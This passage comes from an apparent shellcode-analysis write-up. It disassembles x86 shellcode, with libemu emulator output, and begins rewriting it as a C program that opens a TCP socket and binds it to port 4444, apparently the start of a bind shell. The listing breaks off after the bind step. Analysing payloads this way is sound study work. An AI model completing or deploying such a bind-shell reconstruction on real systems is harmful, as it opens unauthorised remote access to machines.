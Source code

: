 With the above breakdown of the code it is much easier to get a handle on what is happening within the code. It can be discovered from the above code that it is a standard socket program and is safe to test, the port used within the code being 4444. To prove this it would be beneficial to try and write a C language program equivalent to the shellcode that has just been analyzed.
```c	
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <errno.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
  
int
main(void)
{
    int sockfd, dupsockfd; 
    struct sockaddr_in hostaddr, clientaddr;  
    socklen_t sinsz;
      
    /*
     socket:
     int socket(int domain, int type, int protocol);
 
     libemu
       int domain = 2;
         int type = 1;
         int protocol = 0;
     00000004  53            push ebx    ; IPPROTO_IP=0
     00000005  43            inc ebx     ; socketcall, SYS_SOCKET    
     00000006  53            push ebx    ; SOCK_STREAM  
     00000007  6A02          push byte +0x2 ; AF_INET
     00000009  89E1          mov ecx,esp ; ecx, ptr to args
     0000000B  B066          mov al,0x66 ; socketcall()
     0000000D  CD80          int 0x80    ; make the call
    */
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
  
    /* 
     bind:
     int bind(int sockfd, const struct sockaddr *addr, 
              socklen_t addrlen);
 
     libemu:
       int sockfd = 14;
       struct sockaddr_in * my_addr = 0x00416fc2 => 
         struct = {
           short sin_family = 2;
           unsigned short sin_port = 23569 (port=4444);
           struct in_addr sin_addr = {
             unsigned long s_addr = 0 (host=0.0.0.0);
           };
           char sin_zero = "       ";
         };
     int addrlen = 16;    
     0000000F  5B            pop ebx        ; bind()
     00000010  5E            pop esi        ; esi, contains sockfd
     00000011  52            push edx       ; null
     00000012  680200115C    push dword 0x5c110002 ; sin_port/sin_family
     00000017  6A10          push byte +0x10 ; addrlen
     00000019  51            push ecx       ; my_addr
     0000001A  50            push eax       ; sockfd
```